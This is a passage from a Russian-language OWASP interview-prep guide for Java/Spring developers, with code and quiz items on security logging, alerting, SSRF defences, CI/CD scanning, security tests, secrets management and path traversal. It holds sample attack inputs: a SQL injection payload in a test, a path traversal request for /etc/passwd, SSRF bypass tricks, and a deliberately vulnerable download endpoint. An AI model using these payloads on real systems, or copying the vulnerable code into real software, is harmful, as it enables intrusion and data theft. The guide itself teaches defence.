            getUsername(), getResource(jp), jp.getSignature().getName());
    }

    // 3. Чувствительные операции
    @Around("@annotation(AuditSensitive)")
    public Object logSensitiveOp(ProceedingJoinPoint jp) throws Throwable {
        auditLog.info("SENSITIVE_OP_START user={} operation={} params={}",
            getUsername(), jp.getSignature().getName(), sanitize(jp.getArgs()));
        try {
            Object result = jp.proceed();
            auditLog.info("SENSITIVE_OP_SUCCESS user={} operation={}",
                getUsername(), jp.getSignature().getName());
            return result;
        } catch (Exception e) {
            auditLog.error("SENSITIVE_OP_FAILURE user={} operation={} error={}",
                getUsername(), jp.getSignature().getName(), e.getMessage());
            throw e;
        }
    }
}
```

**Чего НЕ логировать:**
- Пароли, токены, секреты (даже замаскированные)
- PII без необходимости (GDPR)
- Полное тело запроса с чувствительными данными

> [!mcq]
> - [x] Обязательные security-события: попытки аутентификации (успех/неудача), отказы авторизации (AccessDenied), чувствительные операции (payment, admin actions), input validation failures; НЕ логировать пароли, токены, секреты, PII без необходимости. | Верный список. AOP-аспекты удобны для реализации: @AfterReturning на authenticate(), @AfterThrowing на @PreAuthorize, @Around на @AuditSensitive. Запрет логировать секреты — GDPR/compliance требование. Даже в маскированном виде токены не логируются (риск re-identification).
> - [ ] Обязательно логировать полный request body и response body каждого HTTP-запроса — это даёт полную картину для forensics анализа. | Полные body — это утечка данных через логи: пароли в login-endpoint, PII в user-endpoints, secrets в config-endpoints. Правильно — логировать метаданные (method, path, status, user, duration) + selective body для специфических endpoints (с маскированием чувствительных полей).
> - [ ] Логировать только успешные аутентификации; неудачные попытки логировать не нужно, так как они не влияют на безопасность системы. | Именно неудачные попытки — критичный security signal. Серия неудач = brute force или credential stuffing. Без этих логов невозможно детектировать активные атаки. Успешные логины тоже нужны (для audit trail), но failure events не менее важны.
> - [ ] Пароли в логах безопасны, если они захэшированы через MD5 перед записью; MD5 необратим и соответствует требованиям логирования. | Хэширование паролей в логах — бессмысленно и опасно. Злоумышленник, получивший логи, может атаковать хэши rainbow tables / brute force (особенно MD5). Правильно — пароли НЕ попадают в логи вообще (Logback MDC filter, Jackson @JsonIgnore на password-полях, маскирование в audit log).

## Q32. Как настроить алертинг на security-события?

Алертинг — ключевое отличие между «мы логируем» и «мы обнаруживаем атаки»:

```java
@Component
@RequiredArgsConstructor
public class SecurityAlertService {

    private final MeterRegistry meterRegistry;
    private final NotificationService notificationService;
    private final Cache<String, AtomicInteger> failedLoginCounter;

    @EventListener
    public void onAuthFailure(AuthenticationFailureEvent event) {
        String username = event.getAuthentication().getName();
        String ip = getClientIp();

        // Метрика для Prometheus/Grafana
        meterRegistry.counter("security.auth.failure",
            "username", username, "ip", ip).increment();

        // Детекция brute force — 10+ неудач за 5 минут
        AtomicInteger count = failedLoginCounter.get(ip, k -> new AtomicInteger(0));
        if (count.incrementAndGet() >= 10) {
            notificationService.sendAlert(
                AlertLevel.HIGH,
                "Brute force detected: 10+ failed logins from IP=" + ip);
        }
    }

    @EventListener
    public void onAccessDenied(AuthorizationDeniedEvent event) {
        // Алерт на попытку доступа к admin-ресурсам
        String resource = event.getSource().toString();
        if (resource.contains("/admin/")) {
            notificationService.sendAlert(
                AlertLevel.MEDIUM,
                "Admin access attempt by non-admin user");
        }
    }
}
```

Рекомендуемые метрики для дашбордов (подробнее в [вопросах по безопасности приложений](application-security-interview.md)):
- `security.auth.failure.rate` — аномальный рост = brute force
- `security.access_denied.rate` — аномальный рост = зондирование
- `security.input_validation.failure.rate` — аномальный рост = injection-попытки

> [!mcq]
> - [ ] Алертинг на security-события настраивается только на уровне SIEM (Splunk, ELK) — приложение не должно инициировать алерты, чтобы не создавать single point of failure. | Алертинг эффективнее всего на нескольких уровнях. Приложение быстрее детектирует конкретные паттерны (10 failed logins от IP за 5 мин), SIEM находит cross-app correlation. Spring Boot Events (AuthenticationFailureEvent, AuthorizationDeniedEvent) + Prometheus метрики + Alertmanager — стандартная архитектура.
> - [x] Алертинг на security-события: Spring Events (AuthenticationFailureEvent, AuthorizationDeniedEvent) → Prometheus-метрики (security.auth.failure.rate) → Alertmanager + отправка в SIEM; ключевой фактор — пороги (10+ failed logins за 5 мин = brute force). | Верная архитектура. Метрики дают quantitative signals для аномалий. Критично — настроить пороги, иначе false positives или missed alerts. Аномальный рост access_denied = зондирование, input_validation.failure = injection-попытки.
> - [ ] Главное в алертинге — отправлять алерт на email на КАЖДОЕ security-событие (каждую failed login); так security-команда не пропустит атаку. | Alert fatigue — реальная проблема: при 1000+ алертов в день команда игнорирует их (security-аналитики «выгорают»). Нужны пороги (N событий за время), severity levels (LOW/MEDIUM/HIGH/CRITICAL), группировка однотипных событий. Email тоже не лучший канал — PagerDuty/Opsgenie для on-call.
> - [ ] Алертинг избыточен при хорошем логировании: если все security-события залогированы, команда может анализировать их в квартальных security review. | Средний TTD breach — 287 дней. Квартальный анализ = минимум 90 дней задержки обнаружения. Real-time алертинг критичен для минимизации TTD. Логирование без алертинга — потенциал для forensics, но не для активного реагирования на атаки.

---

## Q33. (!) Что такое SSRF и почему он попал в OWASP Top 10?

`SSRF` (`Server-Side Request Forgery`, `A10:2021`) — **новая категория**, когда злоумышленник заставляет сервер выполнять запросы к произвольным адресам, включая внутренние сервисы.

Попал в Top 10 из-за роста cloud-инфраструктуры: через SSRF атакующий добирается до **metadata endpoints** (`169.254.169.254` в AWS/GCP), получает IAM-токены и компрометирует всю инфраструктуру.



**Типы SSRF:**
- **Classic SSRF** — ответ внутреннего сервиса возвращается атакующему
- **Blind SSRF** — ответ не виден, но факт запроса детектируется (OOB)
- **Partial SSRF** — контроль только над частью URL (path, параметры)

> [!mcq]
> - [ ] SSRF (A10:2021) — атака, при которой злоумышленник заставляет браузер пользователя выполнять запросы от его имени к внутренним сервисам; попал в Top 10 из-за распространения SPA-архитектур. | SSRF — это атака через серверную сторону (Server-Side Request Forgery): злоумышленник заставляет именно сервер выполнять запросы. Атака через браузер — это CSRF. SSRF попал в Top 10 из-за роста cloud-инфраструктуры и доступности metadata endpoints.
> - [ ] SSRF (A10:2021) — атака, при которой злоумышленник заставляет сервер выполнять запросы к внутренним сервисам; в cloud-среде критична из-за доступа к metadata endpoint 172.16.0.1, содержащему IAM-токены. | Адрес metadata endpoint неверный. В AWS, GCP и Azure metadata endpoint — это 169.254.169.254 (link-local адрес). Через него злоумышленник может получить IAM-токены и полностью скомпрометировать cloud-аккаунт.
> - [x] SSRF (A10:2021) — атака, при которой злоумышленник заставляет сервер выполнять запросы к произвольным адресам; в cloud-среде критична из-за доступа к metadata endpoint 169.254.169.254 с IAM-токенами; защита — whitelist разрешённых хостов и схем. | Верное описание. Cloud metadata endpoint (169.254.169.254) — типичная цель SSRF: получение IAM-токенов позволяет захватить cloud-аккаунт. Защита: whitelist хостов, блокировка link-local и loopback диапазонов, DNS rebinding protection.
> - [ ] SSRF (A10:2021) — атака, при которой злоумышленник заставляет сервер выполнять запросы к произвольным адресам; защита — валидация URL через regex на наличие внутренних IP-диапазонов типа 192.168.x.x. | Regex-валидация URL ненадёжна: DNS rebinding атака позволяет обойти IP-проверку (DNS резолвит «разрешённый» домен в внутренний IP уже после проверки). Правильная защита — whitelist разрешённых хостов с DNS-резолюцией до проверки.

## Q34. Как реализовать защиту от SSRF в Java?

Многоуровневая защита:

```java
@Service
public class SafeUrlFetcher {

    private static final Set<String> ALLOWED_SCHEMES = Set.of("http", "https");
    private static final Set<String> ALLOWED_HOSTS = Set.of(
        "api.github.com", "api.example.com");

    public String fetch(String urlString) {
        // 1. Валидация URL
        URI uri = validateUrl(urlString);
        
        // 2. DNS-резолюция и проверка IP
        InetAddress address = resolveAndValidate(uri.getHost());
        
        // 3. Запрос с таймаутами
        return executeRequest(uri);
    }

    private URI validateUrl(String urlString) {
        URI uri;
        try {
            uri = new URI(urlString);
        } catch (URISyntaxException e) {
            throw new IllegalArgumentException("Invalid URL");
        }

        // Проверка схемы
        if (!ALLOWED_SCHEMES.contains(uri.getScheme())) {
            throw new SecurityException("Scheme not allowed: " + uri.getScheme());
        }

        // Whitelist хостов (предпочтительно)
        if (!ALLOWED_HOSTS.contains(uri.getHost())) {
            throw new SecurityException("Host not allowed: " + uri.getHost());
        }

        return uri;
    }

    private InetAddress resolveAndValidate(String host) {
        try {
            InetAddress addr = InetAddress.getByName(host);

            // Блокировка приватных и служебных диапазонов
            if (addr.isLoopbackAddress()         // 127.0.0.0/8
                || addr.isSiteLocalAddress()      // 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16
                || addr.isLinkLocalAddress()      // 169.254.0.0/16 (metadata endpoint!)
                || addr.isAnyLocalAddress()) {    // 0.0.0.0
                throw new SecurityException("Access to internal networks is forbidden");
            }
            return addr;
        } catch (UnknownHostException e) {
            throw new SecurityException("Cannot resolve host");
        }
    }
}
```

**Сетевой уровень** (defense in depth):
- `Network Policy` в Kubernetes — ограничить egress трафик подов
- `VPC Security Groups` / firewall — запретить обращение к metadata endpoint
- `IMDSv2` в AWS — требует PUT-запрос с `X-aws-ec2-metadata-token` (защита от SSRF через GET)

> [!mcq]
> - [x] Защита от SSRF: whitelist разрешённых хостов и схем (http/https), блокировка loopback/site-local/link-local диапазонов через InetAddress.is*Address(), Network Policy/firewall для egress трафика, IMDSv2 в AWS (требует PUT-токен). | Верная многоуровневая защита. InetAddress.isLinkLocalAddress() блокирует 169.254.0.0/16 (metadata endpoint). Whitelist — строжайшая защита, но требует known hosts. Защита на сетевом уровне (K8s NetworkPolicy, VPC SG) — defense in depth при пробитии app-уровня.
> - [ ] SSRF защищается только проверкой URL через regex на наличие подстрок "169.254", "127.0", "localhost"; если таких подстрок нет, URL безопасен. | Regex-проверка легко обходится: IPv6 loopback (::1), decimal IP encoding (http://2130706433/ = 127.0.0.1), DNS rebinding (домен резолвится в 169.254.169.254 после проверки). Правильно — DNS-резолюция + InetAddress.isLinkLocalAddress() и связанные методы.
> - [ ] Защита от SSRF в Java не нужна, так как Java автоматически блокирует доступ к private IP-диапазонам через SecurityManager. | SecurityManager устарел (deprecated for removal in Java 17+). HTTP-клиенты (HttpClient, RestTemplate, OkHttp) не блокируют private IP по умолчанию. Разработчик обязан реализовать защиту сам: валидация URL, whitelist хостов, проверка IP после DNS.
> - [ ] IMDSv2 в AWS — это улучшенная версия metadata endpoint с SSL-шифрованием; защищает от SSRF, так как обычные HTTP-клиенты не поддерживают SSL. | IMDSv2 не использует SSL (metadata endpoint всё ещё на http://169.254.169.254). Защита IMDSv2 — требование PUT-запроса с TTL-токеном (X-aws-ec2-metadata-token). SSRF через GET-запрос не получает токен, следовательно не может обратиться к metadata. Это session-based защита, не SSL.

---

## Q35. (!) Как встроить OWASP-проверки в SDLC и CI/CD?

OWASP-риски покрываются не одним пентестом, а системой автоматических и ручных проверок на каждом этапе:



**Практический CI/CD pipeline:**

| Стадия | Инструмент | Что проверяет | Блокирует MR? |
|--------|-----------|---------------|---------------|
| `SAST` | `SpotBugs` + `Find Security Bugs` | SQL injection, XSS, криптография | Да, на High |
| `SCA` | `OWASP Dependency-Check` | Уязвимые зависимости | Да, на CVSS ≥ 7.0 |
| `Secrets` | `gitleaks`, `trufflehog` | Утечка секретов в код | Да, всегда |
| `IaC` | `Checkov`, `tfsec` | Ошибки конфигурации | Да, на High |
| `Container` | `Trivy` | Уязвимости в образах | Да, на Critical |
| `DAST` | `OWASP ZAP` | Runtime-уязвимости | Нет (информационно) |

Важно определить **quality gates** — по severity и с возможностью policy exception с явным владельцем риска.

> [!mcq]
> - [x] OWASP-проверки в CI/CD: SAST (SpotBugs + Find Security Bugs) — блок на High; SCA (OWASP Dependency-Check) — блок на CVSS ≥ 7.0; Secret Scan (gitleaks) — всегда блок; IaC (Checkov); Container (Trivy) — блок на Critical; DAST (ZAP) — информационно. Threat modeling на этапе Design. | Верное distribution по стадиям SDLC. SAST находит injection в коде, SCA — уязвимые зависимости, Secret Scan — утечку токенов в git, IaC Scan — ошибки K8s/Terraform. Quality gates с policy exception через явный owner риска.
> - [ ] Достаточно одного DAST-сканирования (OWASP ZAP) в production — он найдёт все OWASP Top 10 уязвимости и заменит SAST, SCA, Secret Scan. | DAST находит только runtime-уязвимости в работающем приложении (XSS, missing security headers), но не SQL Injection в неиспользуемых endpoints, не IDOR без test data, не secrets в коде, не уязвимые dependencies. DAST дополняет SAST/SCA, не заменяет.
> - [ ] OWASP-проверки применяются только на стадии Production (WAF + Monitoring); на стадиях Development и CI/CD это избыточно, так как код ещё не эксплуатируется. | Shift-left — основной принцип: находить проблемы как можно раньше. Баг, найденный на Design через threat modeling, стоит в 100x дешевле, чем на Production. CI/CD проверки (SAST, SCA, Secret Scan) — обязательный минимум для Senior-уровня команды.
> - [ ] Quality gates в CI/CD должны блокировать MR на ЛЮБОЙ finding (Low severity тоже): это гарантирует чистый код. | Это создаёт alert fatigue и блокирует разработку на false positives. Стандартный подход: блок на High/Critical (с CVSS threshold), Medium — создание задачи с SLA 30 дней, Low — backlog. Blocking на Low — контрпродуктивно: разработчики начинают обходить security.

## Q36. Какие security-тесты обязательны перед релизом?

Минимальный набор security-тестов в Java-проекте:

```java
// 1. Тесты авторизации — positive + negative
@Test
void regularUser_cannotAccessAdminEndpoint() {
    mockMvc.perform(get("/api/admin/users")
            .with(user("regular").roles("USER")))
        .andExpect(status().isForbidden());
}

@Test
void admin_canAccessAdminEndpoint() {
    mockMvc.perform(get("/api/admin/users")
            .with(user("admin").roles("ADMIN")))
        .andExpect(status().isOk());
}

// 2. Тесты на IDOR
@Test
void user_cannotAccessOtherUsersData() {
    mockMvc.perform(get("/api/accounts/999")  // чужой аккаунт
            .with(user("user1").roles("USER")))
        .andExpect(status().isForbidden());
}

// 3. Тесты на injection
@Test
void sqlInjection_doesNotWork() {
    mockMvc.perform(get("/api/users")
            .param("search", "' OR '1'='1"))
        .andExpect(status().isBadRequest());
}

// 4. Тесты security headers
@Test
void securityHeaders_arePresent() {
    mockMvc.perform(get("/api/public/health"))
        .andExpect(header().string("X-Content-Type-Options", "nosniff"))
        .andExpect(header().string("X-Frame-Options", "DENY"))
        .andExpect(header().exists("Content-Security-Policy"));
}
```

Для критичных систем добавляют threat-based тесты по наиболее вероятным атакам из threat model (см. Q16).

> [!mcq]
> - [ ] Обязательные security-тесты — это только unit-тесты бизнес-логики с правильным happy path; negative тесты (forbidden/invalid input) избыточны при правильной реализации. | Security-тесты — это именно negative-тесты: «что будет, если non-admin обратится к admin-endpoint», «что будет, если SQL injection payload попадёт в search». Happy path не проверяет security. Negative-тесты обязательны для авторизации (регулярный user vs admin endpoint) и injection.
> - [x] Обязательные security-тесты: authorization positive+negative (regular user vs admin), IDOR-тесты (доступ к чужим ресурсам), injection-тесты (SQL payloads), проверка security headers (X-Frame-Options, CSP, HSTS), threat-based тесты по threat model. | Верный минимум. MockMvc с user().roles() удобен для authorization-тестов. IDOR — отдельный кейс: пользователь A обращается к ресурсу пользователя B, ожидается 403. Security headers проверяются как обычные HTTP-заголовки в тестах.
> - [ ] Достаточно запустить OWASP ZAP в CI/CD; ручные security-тесты в коде приложения не нужны, так как ZAP покрывает все OWASP Top 10. | ZAP — DAST-инструмент: находит runtime-уязвимости, но не IDOR без тестовых пользователей, не все authorization paths, не business logic bugs. Код-уровневые unit-тесты безопасности нужны как первая линия — выполняются быстро при каждом MR.
> - [ ] Security-тесты должны прогоняться только перед major-релизом (раз в квартал); на каждый MR — избыточно и замедляет разработку. | Security-тесты должны запускаться на каждый MR в рамках обычного test suite. MockMvc-тесты выполняются за миллисекунды. Откладывание до major-релиза = регрессии попадают в production. Принцип shift-left: ранее = дешевле и безопаснее.

## Q37. Как организовать безопасный секрет-менеджмент?

Секреты **не должны** храниться в коде, `application.yml`, Docker-образах или переменных окружения (env vars видны в `/proc`).

**Иерархия подходов (от простого к надёжному):**

| Подход | Плюсы | Минусы |
|--------|-------|--------|
| Env vars | Просто, нет в коде | Видны в `/proc`, нет аудита |
| `Spring Config Server` (encrypted) | Централизация | Ключ шифрования нужно где-то хранить |
| `HashiCorp Vault` | Ротация, аудит, lease | Сложность настройки |
| Cloud KMS (`AWS Secrets Manager`, `GCP Secret Manager`) | Managed, аудит, ротация | Vendor lock-in |

```java
// Spring Cloud Vault — динамические секреты БД
@Configuration
public class VaultConfig {
    // spring.cloud.vault.database.enabled=true
    // Vault генерирует временные DB credentials с TTL
    // При истечении — автоматическая ротация
}
```

Ключевые правила:
- Секрет **никогда** не попадает в git (настроить `pre-commit hook` с `gitleaks`)
- Секреты **разные** для каждого окружения (dev/staging/prod)
- **Ротация** — автоматическая, с минимальным TTL
- **Аудит** — кто, когда и к какому секрету обращался
- Минимизировать **время жизни** секрета в памяти приложения

> [!mcq]
> - [x] Безопасный секрет-менеджмент: секреты не в коде/yml/Docker, иерархия подходов от простого (env vars) до надёжного (HashiCorp Vault / AWS Secrets Manager с динамическими секретами БД + TTL); pre-commit hook (gitleaks), аудит доступа, разные секреты на dev/staging/prod. | Верная стратегия. Vault + Spring Cloud Vault даёт dynamic secrets: временные DB credentials с TTL, автоматическая ротация. Env vars — базовый уровень (лучше чем git), но без аудита и ротации. Cloud KMS — managed решение с аудитом.
> - [ ] Секреты можно безопасно хранить в application.yml, если файл зашифрован через Ansible Vault или Jasypt: шифрование делает их защищёнными от git-leak. | Зашифрованные секреты в git = ключ шифрования где-то должен быть (обычно в env или в yml), что возвращает проблему. Ansible/Jasypt полезны как доп. слой, но не решают проблему. Правильно — секреты вне репозитория: Vault, Secret Manager, K8s Secrets.
> - [ ] Environment variables — самый безопасный способ хранения секретов: они изолированы процессом и недоступны другим процессам в системе. | Env vars видны в /proc/<pid>/environ, docker inspect, kubectl describe pod, ps aux. Нет аудита доступа, нет ротации, секреты попадают в core dumps и stack traces. Env vars — базовый уровень, Vault/KMS значительно безопаснее.
> - [ ] Ротация секретов необязательна, если секрет достаточно сложный (минимум 32 символа случайных byte): сложность компенсирует отсутствие ротации. | Сложность защищает от brute force, но не от утечки (через логи, dumps, insider threat). Ротация ограничивает окно атаки при компрометации: украденный секрет действителен до следующей ротации. Vault позволяет TTL 1-24 часа с автоматической ротацией — best practice.

## Q38. Как приоритизировать исправление уязвимостей?

Приоритет определяется **бизнес-контекстом**, не только `CVSS`:



**Факторы приоритизации:**
- **Exploitability** — есть ли публичный эксплойт?
- **Attack surface** — публичный API vs внутренний сервис
- **Data sensitivity** — финансовые данные vs публичный контент
- **Compensating controls** — WAF, network isolation, monitoring
- **Blast radius** — что будет скомпрометировано при эксплуатации

> Иногда «Medium» уязвимость в публичном API важнее «Critical» во внутреннем сервисе за VPN.

Практичный подход — **risk-based backlog** с SLA по severity и owner на каждую запись.

> [!mcq]
> - [ ] Приоритизация уязвимостей делается строго по CVSS score: Critical (9-10) исправляются за 24 часа, High (7-8.9) за неделю, Medium (4-6.9) за месяц, Low (0-3.9) — backlog. | CVSS — только один фактор. Business-контекст не менее важен: Medium в публичном API (exploitable, attack surface high, data sensitive) важнее Critical во внутреннем сервисе за VPN (compensating controls: network isolation). Reasonable heuristic, но не единственный.
> - [x] Приоритизация по бизнес-контексту: CVSS + exploitability (есть ли публичный эксплойт), attack surface (публичный vs внутренний), data sensitivity (PII/financial vs публичный контент), compensating controls (WAF, network isolation), blast radius; risk-based backlog с SLA и owner. | Верный подход. «Medium в публичном API важнее Critical во внутреннем сервисе за VPN» — классический пример. Exploitability повышает priority: уязвимость с PoC эксплойтом требует немедленной реакции независимо от CVSS.
> - [ ] Все уязвимости независимо от severity должны быть исправлены за 24 часа; ожидание 30 дней на Medium CVE создаёт окно атаки. | Это нереалистично и контрпродуктивно. 100+ Medium CVE в месяц = команда не успевает делать ничего кроме security-fixes. Risk-based prioritization — компромисс: Critical/High — немедленно, Medium — SLA 30 дней, Low — backlog. Баланс между security и delivery.
> - [ ] Уязвимости во внутренних сервисах не нужно исправлять: network isolation и VPN полностью защищают от эксплуатации. | Insider threat и lateral movement — реальные сценарии. Скомпрометированный internal service используется как pivot для атаки соседних сервисов (например, после SSRF в публичном сервисе). Defense in depth: фиксить уязвимости независимо от network isolation, но с разным приоритетом.

## Q39. Что такое Defense in Depth и как применять на практике?

`Defense in Depth` — принцип многоуровневой защиты, где каждый слой работает независимо. Если один слой пробит, следующий всё ещё защищает:



**Пример — защита API перевода денег:**

```java
// Слой 1: URL-авторизация (SecurityFilterChain)
.requestMatchers("/api/transfers/**").authenticated()

// Слой 2: метод-авторизация
@PreAuthorize("hasRole('USER') and #request.fromAccountId == authentication.principal.accountId")
public TransferResult transfer(TransferRequest request) { ... }

// Слой 3: бизнес-валидация
if (fromAccount.getBalance().compareTo(amount) < 0) {
    throw new InsufficientFundsException();
}
if (amount.compareTo(fromAccount.getDailyLimit()) > 0) {
    throw new DailyLimitExceededException();
}

// Слой 4: аудит
auditService.log("TRANSFER", fromAccount, toAccount, amount);

// Слой 5: БД constraints
// CHECK (balance >= 0) на уровне таблицы
```

Каждый слой защищает от разных сценариев и от ошибок в других слоях.

> [!mcq]
> - [x] Defense in Depth — многоуровневая защита, где каждый слой работает независимо: WAF/CDN → Network/Firewall → API Gateway rate limit → Spring Security Filter Chain → @PreAuthorize → business logic validation → Row Level Security в БД. | Верное применение. При пробитии одного слоя следующий всё ещё защищает. Пример — защита API перевода денег: URL-auth + @PreAuthorize + business-rules (daily limit) + audit + DB CHECK constraint на balance. 5 слоёв от разных сценариев ошибок.
> - [ ] Defense in Depth — это избыточная защита: если URL-авторизация настроена правильно, @PreAuthorize на методах и ownership-проверка в сервисе дублируют одну и ту же логику. | Это не дублирование, а разные слои защиты. URL-auth работает на request level, @PreAuthorize — на method level (работает для не-HTTP вызовов), ownership-проверка — на business level. Каждый слой защищает от разных ошибок: если забыли URL-правило, @PreAuthorize спасёт.
> - [ ] Defense in Depth применяется только в legacy-системах; современные Zero Trust архитектуры делают многоуровневую защиту ненужной. | Zero Trust — это как раз Defense in Depth в network architecture: вместо «внутри VPN всё доверено» каждый запрос проверяется независимо от источника. Zero Trust дополняет, а не заменяет DiD на уровне приложения (auth, business validation, DB constraints).
> - [ ] Defense in Depth — это только network-уровень (WAF + firewall + VPN); на application-уровне достаточно одного слоя защиты для упрощения архитектуры. | DiD применяется на всех уровнях: network (WAF, firewall), application (auth + method security + business validation), data (RLS, encryption at rest). Application-уровень с одним слоем = single point of failure: ошибка в этом слое делает систему полностью уязвимой.

## Q40. Как подготовиться к вопросам по OWASP на собеседовании?

**Что ожидают от Senior Java Developer:**

1. **Знание всех 10 категорий** — не наизусть определения, а понимание: почему это проблема, как проявляется в Java/Spring, как защищаться
2. **Практический опыт** — конкретные примеры из своих проектов: «мы нашли IDOR в API заказов и исправили через PermissionEvaluator»
3. **Код** — умение написать и уязвимый, и исправленный вариант
4. **Процесс** — как security встроен в SDLC, CI/CD, code review
5. **Trade-offs** — понимание, что безопасность имеет цену (сложность, производительность, UX)

**Структура ответа на вопрос типа «Расскажите про A01»:**
1. Что это (1-2 предложения)
2. Пример уязвимости (код или сценарий)
3. Как защищаться (конкретные меры)
4. Как проверять (тесты, инструменты)

**Частые ловушки:**
- «Мы используем Spring Security, значит защищены» — нет, `Spring Security` защищает аутентификацию и URL-авторизацию, но не от IDOR, injection в native queries, SSRF
- «У нас есть WAF» — WAF — дополнительный слой, но не замена правильного кода
- «Мы шифруем пароли через MD5/SHA-256» — это хэширование, не шифрование, и оба варианта небезопасны для паролей

> [!mcq]
> - [ ] На собеседовании достаточно наизусть перечислить 10 категорий OWASP Top 10 2021 с официальными названиями — это демонстрирует знание стандарта. | Перечисление названий — junior-уровень. Senior должен объяснить: почему эта категория — проблема, как проявляется в Java/Spring, как защищаться, как проверять. «Мы используем Spring Security» — типичная ловушка: оно защищает URL-auth, но не от IDOR, SQL injection в native queries, SSRF.
> - [x] На собеседовании Senior ожидают: понимание всех 10 категорий (не наизусть, а в контексте Java/Spring), конкретные примеры из проектов ("нашли IDOR в API заказов через PermissionEvaluator"), умение написать и уязвимый, и исправленный код, процесс (SDLC, CI/CD, code review), trade-offs. | Верный подход. Структура ответа: что это → пример уязвимости → как защищаться → как проверять. Избегать ловушек: «у нас есть WAF» = доп. слой, не замена. «Шифруем через MD5» = это хэширование, и оба небезопасны.
> - [ ] На собеседовании по OWASP ожидают детального знания CVSS-скора каждой категории (например, A01 имеет CVSS 9.8) — без цифр ответ считается поверхностным. | CVSS применяется к конкретным CVE, а не к категориям OWASP. Senior должен объяснить методологию OWASP (Likelihood × Impact, data-driven для 8 категорий + survey для 3), но не CVSS «категорий». Ловушка в вопросе — если спрашивают CVSS категорий, собеседующий путается.
> - [ ] Достаточно выучить ответы на 10 типовых вопросов; глубокое понимание архитектуры безопасности не требуется для Senior-роли. | Senior Java Developer должен владеть архитектурными concepts: threat modeling, defense in depth, secure SDLC, secrets management, cryptographic best practices. Интервьюер проверяет именно понимание, не заученные ответы — через follow-up вопросы и практические сценарии.

## Q41. (!) Как реализовать Path Traversal защиту в Java?

**Path Traversal** (CWE-22) — атака, при которой злоумышленник использует последовательности `../` для выхода за пределы разрешённого каталога.

### Уязвимый код

```java
// УЯЗВИМО: прямое использование имени файла из запроса
@GetMapping("/files/{filename}")
public ResponseEntity<Resource> downloadFile(@PathVariable String filename) {
    Path filePath = Paths.get("/var/uploads/" + filename);
    Resource resource = new FileSystemResource(filePath);
    return ResponseEntity.ok(resource);
}
// Атака: GET /files/../../etc/passwd
```

### Безопасная реализация

```java
@GetMapping("/files/{filename}")
public ResponseEntity<Resource> downloadFile(@PathVariable String filename) {
    // 1. Нормализуем путь
